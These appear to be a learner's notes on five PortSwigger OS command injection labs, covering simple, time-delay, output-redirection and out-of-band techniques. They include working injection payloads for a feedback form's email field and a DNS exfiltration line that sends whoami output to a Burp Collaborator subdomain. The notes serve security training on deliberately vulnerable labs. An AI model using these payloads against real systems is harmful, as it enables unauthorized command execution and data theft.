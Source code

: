 - [OS Command Injection](https://www.hackingarticles.in/comprehensive-guide-on-os-command-injection/) 
- https://portswigger.net/web-security/os-command-injection
- https://book.hacktricks.xyz/pentesting-web/command-injection

## **1. OS command injection, simple case**
This lab contains an [OS command injection](https://portswigger.net/web-security/os-command-injection) vulnerability in the product stock checker.

The application executes a shell command containing user-supplied product and store IDs, and returns the raw output from the command in its response.

1. Use Burp Suite to intercept and modify a request that checks the stock level.
2. Modify the `storeID` parameter, giving it the value `1|whoami`.
3. Observe that the response contains the name of the current user.

Analysis:
	![[Pasted image 20241006185925.png]]

| Purpose of command    | Linux         | Windows         |
| --------------------- | ------------- | --------------- |
| Name of current user  | `whoami`      | `whoami`        |
| Operating system      | `uname -a`    | `ver`           |
| Network configuration | `ifconfig`    | `ipconfig /all` |
| Network connections   | `netstat -an` | `netstat -an`   |
| Running processes     | `ps -ef`      | `tasklist`      |
![[Pasted image 20241006185012.png]]

## **2. Blind OS command injection with time delays**
This lab contains a blind [OS command injection](https://portswigger.net/web-security/os-command-injection) vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response. To solve the lab, exploit the blind OS command injection vulnerability to cause a 10 second delay.

1. Use Burp Suite to intercept and modify the request that submits feedback.
2. Modify the `email` parameter, changing it to:
    `email=x ||ping + -c + 10 + 127.0.0.1||`

Analysis:

- after subbmiting the form we obsrve that every input field is accepted so we will find out which one it is susceptible for OS injection
	![[Pasted image 20241007180502.png]]

- for each field (name/email/subject) --> `|| sleep 10 #`  and URL encode it
	![[Pasted image 20241007180742.png]]
	![[Pasted image 20241007181105.png]]

## **3. Blind OS command injection with time delays**
This lab contains a blind [OS command injection](https://portswigger.net/web-security/os-command-injection) vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response. However, you can use output redirection to capture the output from the command. There is a writable folder at: `/var/www/images/`

The application serves the images for the product catalog from this location. You can redirect the output from the injected command to a file in this folder, and then use the image loading URL to retrieve the contents of the file. To solve the lab, execute the `whoami` command and retrieve the output.

1. Modify the `email` parameter, changing it to:
    `email= || whoami>/var/www/images/output.txt ||`
2. Now use Burp Suite to intercept and modify the request that loads an image of a product.
3. Modify the `filename` parameter, changing the value to the name of the file you specified for the output of the injected command:
    `filename=output.txt`
4. Observe that the response contains the output from the injected command.

Analysis:

- Confirm blind command injection
	email field  (submit feedback form page)

![[Pasted image 20241007200025.png]]

- Check where images are stored
	`GET/image?filename=x.jpg` --> /var/www/images
	![[Pasted image 20241007200116.png]]
	
-  Redirect output to file
	email= x `|| whoami > /var/www/images/output.txt #` (url encode it)
	![[Pasted image 20241007201334.png]]
	
- Check if file was created 
	`GET/image?filname=output.txt` 
	![[Pasted image 20241007201453.png]]

## **4. Blind OS command injection with out-of-band interaction

This lab contains a blind OS [command injection](https://portswigger.net/web-security/os-command-injection) vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, exploit the blind OS command injection vulnerability to issue a DNS lookup to Burp Collaborator.

1. Modify the `email` parameter, changing it to:
    `email=x||nslookup+x.BURP-COLLABORATOR-SUBDOMAIN||`
 
Analysis:
![[Pasted image 20241008193453.png]]

## **5.  Blind OS command injection with out-of-band data exfiltration**
This lab contains a blind [OS command injection](https://portswigger.net/web-security/os-command-injection) vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, execute the `whoami` command and exfiltrate the output via a DNS query to Burp Collaborator. You will need to enter the name of the current user to complete the lab.

1. Modify the `email` parameter, changing it to something like the following, but insert your Burp Collaborator subdomain where indicated:
    ``email=||nslookup+`whoami`.BURP-COLLABORATOR-SUBDOMAIN||``
2. Go back to the Collaborator tab, and click "Poll now". You should see some DNS interactions that were initiated by the application as the result of your payload. If you don't see any interactions listed, wait a few seconds and try again, since the server-side command is executed asynchronously.
3. Observe that the output from your command appears in the subdomain of the interaction, and you can view this within the Collaborator tab. The full domain name that was looked up is shown in the Description tab for the interaction.

Analysis:
![[Pasted image 20241008194047.png]]
